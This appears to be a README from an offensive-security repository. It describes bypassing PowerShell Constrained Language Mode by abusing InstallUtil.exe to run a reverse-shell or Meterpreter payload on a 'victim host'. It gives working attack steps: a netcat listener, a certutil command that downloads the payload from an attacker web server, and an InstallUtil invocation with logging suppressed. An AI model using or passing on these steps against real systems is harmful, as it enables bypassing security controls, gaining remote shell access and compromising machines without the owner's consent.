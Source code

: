 # Reverse Shell CLM Bypass with Meterpreter DLL
A .NET installation utility used for registering .NET assemblies can be used and reference the RunInstaller component to trigger the malicious payload that is not found in the 'main' call. 

Compile the csharp binary in Visual Studio and transfer to victim host with certutil. 


## Requirements: 
The following powershell code runner is required and hosted on kali webserver (python http.server)
Reference: CodeRunners/powershellCodeRunner-32.ps1
Reference: CodeRunners/powershellCodeRunner-64.ps1

```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Download file via certutil -urlcache -f http://ip/CLMBypass-shell.exe shell.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U shell.exe
```